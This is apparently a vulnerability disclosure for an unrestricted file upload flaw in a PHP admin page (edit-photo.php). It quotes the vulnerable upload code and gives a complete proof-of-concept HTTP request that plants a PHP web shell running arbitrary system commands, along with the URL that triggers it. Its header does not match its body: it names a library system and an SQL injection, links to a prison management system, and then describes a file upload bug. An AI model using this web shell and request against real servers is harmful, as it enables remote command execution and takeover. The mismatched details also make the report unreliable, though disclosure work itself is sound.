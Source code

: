 Online Library System - SQL Injection on (admin/books/controller.php IBSN parameter) 

Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/Admin/edit-photo.php
```

Using `$_FILES["avatar"]["name"]` as the filename on the server can lead to file upload attacks.

```
if(isset($_POST["btnsave"]))
{
$file_type = $_FILES['avatar']['type']; //returns the mimetype
$allowed = array("image/jpeg", "image/gif","image/jpeg", "image/webp","image/png");
if(!in_array($file_type, $allowed)) {
$error = 'Only jpeg,Webp, gif, and png files are allowed.';
 // exit();

}else{
$image= addslashes(file_get_contents($_FILES['avatar']['tmp_name']));
$image_name= addslashes($_FILES['avatar']['name']);
$image_size= getimagesize($_FILES['avatar']['tmp_name']);
move_uploaded_file($_FILES["avatar"]["tmp_name"],"../uploadImage/" . $_FILES["avatar"]["name"]);
$location="uploadImage/" . $_FILES["avatar"]["name"];
```

Proof of vulnerability:

Upload a jpg, capture the packet, modify the file content to malicious code, and modify the file suffix to php

Request:

```
POST /Admin/edit-photo.php HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------15577034693547569057115635772
Content-Length: 646
Origin: http://localhost:8888
Sec-GPC: 1
Connection: close
Referer: http://localhost:8888/Admin/edit-photo.php
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------15577034693547569057115635772
Content-Disposition: form-data; name="avatar"; filename="cmd.php"
Content-Type: image/jpeg

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
-----------------------------15577034693547569057115635772
Content-Disposition: form-data; name="btnsave"


-----------------------------15577034693547569057115635772--
```

```
http://localhost:8888/uploadImage/cmd.php?cmd=whoami
```


<img width="948" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/33c22ca2-0aa4-4136-a671-dd889083daf7">
